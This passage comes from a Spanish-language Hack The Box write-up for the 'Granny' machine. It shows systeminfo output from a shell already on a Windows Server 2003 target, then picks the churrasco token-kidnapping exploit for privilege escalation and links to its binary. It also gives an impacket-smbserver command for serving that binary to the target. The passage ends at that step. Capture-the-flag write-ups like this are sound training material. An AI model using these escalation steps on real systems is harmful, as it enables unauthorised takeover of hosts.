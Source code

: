 
`Listamos` información del `sistema` para ver a que `versión` de `windows` nos estamos enfrentando

```
c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 GRANNY
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 4 Hours, 53 Minutes, 8 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 648 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,191 MB
Page File: In Use:         279 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A
```

Como estamos ante un `Windows Server 2003` debemos usar `churrasco` para escalar privilegios [https://kashz.gitbook.io/kashz-jewels/services/windows-token-exploits#churrasco](https://kashz.gitbook.io/kashz-jewels/services/windows-token-exploits#churrasco). El binario lo he descargado de [https://the-pentesting-guide.marmeus.com/local_privilege_escalation/windows#token-kidnapping](https://the-pentesting-guide.marmeus.com/local_privilege_escalation/windows#token-kidnapping). Una vez descargado nos `montamos` un `servidor smb` en el `mismo directorio` donde está `churrasco.exe`

```
# impacket-smbserver smbFolder $(pwd) -smb2support
```
